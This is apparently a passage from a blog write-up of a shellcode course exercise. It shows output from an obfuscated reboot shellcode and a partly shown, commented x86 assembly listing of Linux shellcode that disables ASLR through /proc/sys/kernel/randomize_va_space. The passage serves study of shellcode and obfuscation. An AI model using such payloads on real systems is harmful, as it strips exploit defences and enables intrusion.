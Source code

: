 ```
Writing shellcode to polyrebootstub.c
$ ./polyrebootstub
Shellcode Length:  52
reboot: Need to be root
```
After our obfuscation our shellcode still works. Perfect. The size of the shellcode has grown from 36 to 52 bytes. We have kept it under the 150% size increase limitation. Next up…

## Shellcode 2: ASLR Deactivation
The next shellcode disables ASLR on Linux x86 systems. It can be found here. Once again, lets do some analysis before we go and try to run it.
```
global _start
section .text
  _start:
    xor    eax,eax ; Clear out eax
    push   eax     ; Push 0x00000000 onto the stack
    push   0x65636170 ; Push ecap onto the stack
    push   0x735f6176 ; Push s_av onto the stack
    push   0x5f657a69 ; Push _ezi onto the stack
    push   0x6d6f646e ; Push modn onto the stack
    push   0x61722f6c ; Push ar/l onto the stack
    push   0x656e7265 ; Push enre onto the stack
    push   0x6b2f7379 ; Push k/sy onto the stack
    push   0x732f636f ; Push s/co onto the stack
    push   0x72702f2f ; Push rp// onto the stack
    ; At this point //proc/sys/kernel/randomize_va_space
    ; Has been pushed onto the stack
    ; According to [this](http://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization)
    ; This seems to be the recommended way to be disabling ASLR
    mov    ebx, esp ; place a pointer to our string on the stack

    mov    cx, 0x2bc ; mode for sys_creat call
    ; gdb --batch --ex "print /o 0x02bc" $1 = 01274
    ; consulting the man page table for mode we find
    ; S_IWUSR    00200 user has write permission
    ; S_IRWXG    00070 group has read, write, and execute permission
    ; S_IROTH    00004 others have read permission
    ; S_ISVTX  0001000 sticky bit

    mov    al, 0x8 ; sys_creat - open or create a file
    int    0x80 ; open the file

    mov    ebx,eax ; save the file descriptor
